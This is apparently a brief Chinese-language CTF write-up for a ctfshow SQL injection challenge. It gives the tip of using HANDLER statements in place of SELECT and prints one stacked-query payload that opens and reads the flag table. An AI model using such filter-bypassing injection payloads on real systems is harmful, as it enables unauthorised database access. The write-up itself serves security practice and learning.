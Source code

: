 # 知识点
### 使用handler代替select
# 思路
```bash
}';handler `ctfshow_flagasa` open; handler `ctfshow_flagasa` read first--+
```
![image.png](./images/20231017_2352024501.png)

